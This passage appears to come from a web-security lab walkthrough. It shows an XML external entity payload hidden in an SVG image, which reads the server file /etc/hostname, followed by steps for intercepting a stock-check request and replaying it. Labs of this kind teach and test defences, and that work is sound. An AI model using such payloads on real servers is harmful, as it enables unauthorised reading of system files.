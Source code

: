 Alternative payload

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "[file:///etc/hostname](file://etc/hostname)" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
<img src="images/image19.png" alt="third" width="500">

Step1

Click on view product and then check stock

Step2:

Send the POST /product/stock request to repeater

<img src="images/image20.png" alt="third" width="500">
